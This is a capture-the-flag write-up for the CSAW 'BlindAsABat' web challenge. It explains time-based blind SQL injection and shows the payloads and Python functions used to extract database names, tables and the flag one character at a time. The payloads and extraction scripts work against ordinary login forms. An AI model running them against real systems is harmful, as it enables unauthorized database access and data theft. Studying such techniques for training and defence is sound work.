


# BlindAsABat


Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Now that you can SQLI, can you use that to leak out information from the database?
The flag is in a hidden table.
Hint: You will need to use information_schema
```
web.chal.csaw.io:10101
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database. 
The usage of the **UNION** statement allows for additional results to be appended to the SQL query.  
>> Union based SQL injection allows an attacker to extract information from the database by extending the results returned by the original query. The Union operator can only be used if the original/new queries have the same structure (number and data type of columns). [Reference](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)

In this challenge, there isn't a visible output to view result of the SQL query.  We would have to perform a time-based attack to extract information from the database.  A time-based attack utilizes a time delay in the query response to determine if some test case is valid.  Using an if statement with a time-based function allows for True/False questions to be asked.  Queries that yield True will have a time delay in the query response.  By using multiple True/False questions, data can be extracted.  
[Read More](http://www.sqlinjection.net/time-based/) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br /> <br />
 <br />
The first step was to determine what database was being used.  I began [fingerprinting](http://www.sqlinjection.net/database-fingerprinting/) with MySQL
> ' UNION SELECT(SLEEP(5)) --  

The page paused for 5 seconds before it "logged in" <br />
 <br />
Now that I know that MySQL is the database, I began to gather information about the database itself. 
https://sqlwiki.netspi.com/attackQueries/informationGathering/#mysql provides sample queries to query from the schema, databases, tables, and columns.

I began to write my script to first determine the database name.  

I found the length of the name using a incrementing database length checker
```
def findSchemaLength():
	counter = 1
	while True:
		start = time.time()
		payload = {
			'username': "any' UNION SELECT IF(LENGTH(DATABASE())=" + str(counter) + ",SLEEP(" + str(SLEEP) + "),0) ; -- ",
			'password': "any",
		}
		r = requests.post(URL, data=payload)
		end = time.time()
		if end-start>SLEEP:
			break
		counter+=1  
	print "Database length = %d " %counter
```

Then I found the name using binary search for each character within the name.  The set character range is between 0 and 255.
```
def findSchemaName(schemaLength):
	name = ""
	while len(name) != schemaLength:
		tempMax = MAX
		tempMin = MIN
		while True:
			start = time.time()
			payload = {
				'username': "any' UNION SELECT IF(ASCII(SUBSTR(DATABASE()," + str(len(name)+1) + ",1))<=" + str(int((tempMax+tempMin)/2)) + ",SLEEP(" + str(SLEEP) + "),0) ; -- ",
				'password': "any",
			}
			r = requests.post(URL, data=payload)
			end = time.time()
			if end-start>SLEEP:
				tempMax = int((tempMax+tempMin)/2)
			else:
				tempMin = int((tempMax+tempMin)/2)+1
			if tempMax <= tempMin:
				name += chr(tempMax)
				break
	print "Database name = %s " %name
```

Using similar tatics, I recovered:
- **Length of Database Name : 9**
- **Database Name : look_here**
- **Length of Database Version : 6**
- **Database Version : 8.0.12**
- **Number of Tables in look_here : 2**
- **Length of Table Names in look_here : 12 5**
- **Table Names in look_here : look_in_here users**
- **Number of Colmuns in look_in_here : 1**
- **Number of Rows in look_in_here : 1**
- **Length of Colmun Name in look_in_here : 4**
- **Colmun Name in look_in_here : flag**
- **Length of Row Value in look_in_here : 32**
- **Row Value in look_in_here : flag{nOW_W45N7_7h47_547I5fyiN9?}**

[BlindAsABat Script](BlindAsABat.py)

## Flag
```
flag{nOW_W45N7_7h47_547I5fyiN9?}
```
